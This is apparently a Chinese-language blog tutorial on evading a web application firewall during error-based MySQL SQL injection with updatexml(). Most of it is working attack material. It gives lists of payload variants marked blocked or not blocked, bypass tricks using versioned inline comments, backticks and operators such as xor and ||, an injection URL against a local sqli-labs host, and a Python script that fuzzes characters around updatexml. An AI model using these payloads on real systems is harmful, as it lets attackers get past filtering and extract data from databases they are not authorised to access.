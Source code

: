 # 0x00 探索报错

报错注入的绕过，感觉很少人提过，不少人绕过也有一定的误区吧，这里提一提

```
updatexml 不拦截

updatexml(1,2,3 不拦截

updatexml(1,2) 不拦截

updatexml(1,2,) 不拦截

updatexml(,2,1) 不拦截

updatexml(1,2,!) 拦截

updatexml(1,2,%) 拦截

updatexml(,2,1,hex()) 拦截

and updatexml(1,2,3 不拦截

updatexml(1,2,3) 拦截

and updatexml(1,2,3) 拦截


```


到这里我们 大概知道了，他的判断  `updatexml()` 的完整性 ，当里面按逗号分割出现出现3个字符时，就会拦截，当然有个别特殊的字符串他没过滤 

这样我们在括号里面做手脚的可能性很渺茫，那么我们还有 什么方法呢， 可以尝试把 `updatexml()` 函数分开，或者给updatexml 加个外套。


```
 /*updatexml*/(1,1,1) 不拦截

 /*!updatexml*/(1,1,1) 拦截

 /*!5000updatexml*/(1,1,1) 不拦截

 /*!11440updatexml*/(1,1,1) 不拦截

```

看来 `updatexml()` 函数我们已经绕过了 需要前面加个 运算符号了

```
and /*!11440updatexml*/(1,(select hex(user/**/(/**/))),1)  拦截

or /*!11440updatexml*/(1,(select hex(user/**/(/**/))),1) 拦截

/*!and*/ /*!11440updatexml*/(1,(select hex(user/**/(/**/))),1) 拦截

/*!%26%26*/ /*!11440updatexml*/(1,(select hex(user/**/(/**/))),1) 不拦截

/*!||*/ /*!11440updatexml*/(1,(select hex(user/**/(/**/))),1) 不拦截

/*!xor*/ /*!11440updatexml*/(1,(select hex(user/**/(/**/))),1) 不拦截

 | /*!11440updatexml*/(1,(select hex(user/**/(/**/))),1) 不拦截

 xor /*!11440updatexml*/(1,(select hex(user/**/(/**/))),1) 不拦截

```

那么有没有什么可以包裹他的呢，其实我们查看mysql手册找到这么一个符号 开单引号 ASCII 96

```
http://192.168.130.135/Less-1/?id=1' and `updatexml`(1,(select hex(user/**/(/**/))),1)-- +

```

那么我们写个小脚本跑看看 还有没有

```
import requests
import urllib

for i in range(0,177):
    url = r"http://192.168.130.135/Less-1/?id=1%27%20xor%20{fuzz}updatexml{fuzz}(1,(select hex(user/**/(/**/))),1)--%20+".format(fuzz=urllib.quote(chr(i)))
    req = requests.get(url)
    if "F6F7" in req.text:
        print len(req.text),i,urllib.quote(chr(i))

```

发现确实没有其他利用的了，当然你用前面的注释方法也是可行的


# 0x01 文末

脚本只是你的一个思路衍生

#### 本文如有错误，请及时提醒，避免误导他人

* author：404